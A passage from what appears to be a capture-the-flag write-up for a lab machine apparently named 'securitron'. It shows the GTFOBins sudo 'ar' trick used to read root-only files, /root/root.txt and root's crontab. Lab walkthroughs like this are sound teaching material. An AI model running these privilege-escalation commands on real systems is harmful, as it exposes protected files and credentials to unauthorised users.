 ![gtfobins](../../assets/images/securitron/image-33.png)

We attempt to read the root.txt flag using `sudo` with the `ar` binary.

```bash
TF=$(mktemp -u) && sudo /usr/bin/ar r "$TF" "/root/root.txt" && cat "$TF"
```

When we try to read the `/root/root.txt` flag file, we get the message `This time it won't be that easy.`

![/root/root.txt](../../assets/images/securitron/image-34.png)

We attempt to read other files and find something very interesting in the root user's crontab file.

```bash
TF=$(mktemp -u) && sudo /usr/bin/ar r "$TF" "/var/spool/cron/crontabs/root" && cat "$TF"
```

![/var/spool/cron/crontabs/root](../../assets/images/securitron/image-35.png)
